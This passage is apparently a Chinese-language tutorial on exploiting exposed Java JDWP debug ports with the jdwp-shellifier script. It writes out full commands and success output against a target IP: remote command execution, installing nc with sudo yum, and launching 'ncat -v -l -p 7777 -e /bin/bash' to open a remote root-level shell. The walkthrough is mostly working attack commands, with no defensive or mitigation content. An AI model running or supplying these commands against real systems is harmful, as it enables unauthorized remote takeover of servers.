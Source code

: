 ## 开源脚本

[IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)

使用：



```bash
➜  jdwp-shellifier (master|✔) python jdwp-shellifier.py -t 221.221.221.221 -p 10010  --break-on "java.lang.String.indexOf"  --cmd "touch /home/777"
[+] Targeting '221.221.221.221:10010'
[+] Reading settings for 'Java HotSpot(TM) 64-Bit Server VM - 1.8.0_121'
[+] Found Runtime class: id=346d
[+] Found Runtime.getRuntime(): id=7fd8f420b170
[+] Created break event id=2
[+] Waiting for an event on 'java.lang.String.indexOf'
[+] Received matching event from thread 0x355c
[+] Selected payload 'touch /home/777'
[+] Command string object created id:355d
[+] Runtime.getRuntime() returned context id:0x355e
[+] found Runtime.exec(): id=7fd8f40140f0
[+] Runtime.exec() successful, retId=355f
[!] Command successfully executed
```

`break-on "java.lang.String.indexOf"`表示在这个函数打断点，当这个函数执行的时候， 后面跟着的命令就会执行，这时我们登录上机器查看下执行的结果：

```bash
[root@yd-dev-api server]# ls -alh  /home
总用量 52K
drwxr-xr-x. 13 root          root          4.0K 8月  10 14:12 .
dr-xr-xr-x. 28 root          root          4.0K 7月  19 17:52 ..
-rw-r--r--   1 root          root             0 8月  10 14:12 777
```

可以看到`777`这个文件已经创建了， 时间正好是我们执行命令的时间。

这只是初级玩法， 脚本的示例给的是启动一个`ncat`的程序， 然后就可以远程连接上这个ncat开启的端口，相当于有一个`root`权限的shell了。

安装`ncat`

```
python jdwp-shellifier.py -t 221.221.221.221 -p 8399  --break-on "java.lang.String.indexOf"  --cmd  "sudo yum install -y nc"
```

`ncat`在服务器上开启一个端口， 转发输入交给`bash`去执行。

开启转发服务：

```bash
➜  jdwp-shellifier (master|✔) python jdwp-shellifier.py -t 221.221.221.221 -p 8399  --break-on "java.lang.String.indexOf"  --cmd  "ncat -v -l -p 7777 -e /bin/bash"
[+] Targeting '221.221.221.221:8399'
[+] Reading settings for 'Java HotSpot(TM) 64-Bit Server VM - 1.8.0_121'
[+] Found Runtime class: id=345e
[+] Found Runtime.getRuntime(): id=7f6420023408
[+] Created break event id=2
[+] Waiting for an event on 'java.lang.String.indexOf'
[+] Received matching event from thread 0x354e
[+] Selected payload 'ncat -v -l -p 7777 -e /bin/bash'
[+] Command string object created id:354f
[+] Runtime.getRuntime() returned context id:0x3550
[+] found Runtime.exec(): id=7f6420023468
[+] Runtime.exec() successful, retId=3551
[!] Command successfully executed
```

